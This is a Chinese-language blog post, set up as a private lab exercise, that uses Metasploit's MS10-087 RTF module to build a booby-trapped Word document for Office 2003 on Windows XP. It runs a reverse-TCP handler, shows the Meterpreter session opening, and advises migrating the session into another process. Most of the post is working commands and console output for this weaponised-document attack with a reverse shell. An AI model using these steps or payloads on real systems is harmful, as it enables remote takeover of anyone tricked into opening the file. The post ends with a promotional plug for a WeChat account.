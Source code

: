 ```yaml
---
layout: post
category: curleyg-code-hack
title: 基于Word文件格式的渗透攻击
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: 基于Word文件格式的渗透攻击
lock: need
---
```


# 基于Word文件格式的渗透攻击

攻击机： Kali 192.168.175.128

靶机 WinXP 192.168.175.130

程序 Office 2003

## 生成Word文档

```bash
msfconsole
use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof 
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.175.128
set FILENAME word.rtf
exploit
```

具体如下：

```bash
msf5 > use exploit/windows/fileformat/ms10_087_rtf_pfragments_bof 
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > show options

Module options (exploit/windows/fileformat/ms10_087_rtf_pfragments_bof):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   FILENAME  msf.rtf          yes       The file name.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

   **DisablePayloadHandler: True   (RHOST and RPORT settings will be ignored!)**


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > set FILENAME word.rtf
FILENAME => word.rtf
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > exploit

[*] Creating 'word.rtf' file ...
[+] word.rtf stored at /root/.msf4/local/word.rtf
msf5 exploit(windows/fileformat/ms10_087_rtf_pfragments_bof) > 
```

可以看到，在 /root/.msf4/local/目录下生成了word.rtf文件。

## 上传文件到靶机

在实际中，我们需要想办法将文件传到靶机上，这里，我就直接拷贝到靶机了

## 实施攻击

```bash
use exploit/multi/handler 
set payload windows/meterpreter/reverse_tcp
show options
set LHOST 192.168.175.128
exploit
```

具体如下：

```bash
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf5 exploit(multi/handler) > set LHOST 192.168.175.128
LHOST => 192.168.175.128
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
```

## 打开Word文件

在靶机上利用Office 2003打开PDF文件

## 查看获得的Meterpreter

在攻击机Kali上，我们看到MSF控制台中获得了Meterpreter权限。

```bash
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.175.128:4444 
[*] Sending stage (179779 bytes) to 192.168.175.130
[*] Meterpreter session 1 opened (192.168.175.128:4444 -> 192.168.175.130:1431) at 2019-01-24 16:05:52 +0800

meterpreter > 
```

**最后，最好用migrate命令将当前会话进程绑定到系统的其他进程中。**



## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
